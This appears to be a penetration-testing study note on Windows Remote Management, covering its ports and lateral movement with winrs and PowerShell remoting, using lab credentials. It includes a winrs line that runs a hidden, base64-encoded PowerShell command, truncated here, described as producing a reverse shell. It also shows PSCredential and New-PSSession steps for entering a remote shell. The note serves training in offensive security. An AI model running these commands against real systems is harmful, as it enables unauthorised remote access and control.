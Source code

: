 public:: true

- [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) is the Microsoft version of the [*Web Services-Management*](https://en.wikipedia.org/wiki/WS-Management) (WS-Management) open standard protocol.
- It establishes a session with a remote computer through the SOAP-based WS-Management protocol rather than a connection through [[DCOM]] , as [[WMI]] does. Data returned using the WS-Management protocol is formatted in XML instead of as objects.
- #+BEGIN_IMPORTANT
  It exchanges XML messages over HTTP and HTTPS. For that it uses **TCP port 5986 for encrypted HTTPS traffic** and **port 5985 for plain HTTP**.
  #+END_IMPORTANT
- You can use WinRM in different flavors: Powershell, [`winrs`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs) or [`evil-winrm`](https://github.com/Hackplayers/evil-winrm) in linux
- #+BEGIN_IMPORTANT
  For WinRS to work, the domain user needs to be part of the **Administrators** or **Remote Management Users** group on the target host.
  #+END_IMPORTANT
- Let's see how to use `winrs` to run the `whoami` command on a remote target logging as user *jen*.
	- ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c whoami"
	  ```
	- As [already shown](((65a01d55-0fd2-4bbd-9251-edd80b50bbb9))) in [[WMI]], we can instead use it to get a reverse shell.
	  ```cmd
	  winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAG...G4AdAAuAEMAbABvAH"
	  ```
- PowerShell also has WinRM built-in capabilities called [*PowerShell remoting*](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4). Let's see how to use it to access a remote shell.
	- First, we need to create a [PSCredential](https://learn.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2) object to store the domain user credentials that we use to access the remote target.
	  logseq.order-list-type:: number
		- ```powershell
		  $username = 'jen';
		  $password = 'Nexus123!';
		  $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
		  $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
		  ```
	- Next, we can point the [*New-PSSession*](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4) cmdlet to the target machine and pass the PSCredential object.
	  logseq.order-list-type:: number
		- ```powershell
		  New-PSSession -ComputerName 192.168.50.73 -Credential $credential
		  ```
	- At this point a new *PSSession* would be available and we can enter it to interact with the remote shell.
	  logseq.order-list-type:: number
		- ```powershell
		  Enter-PSSession 1
		  ```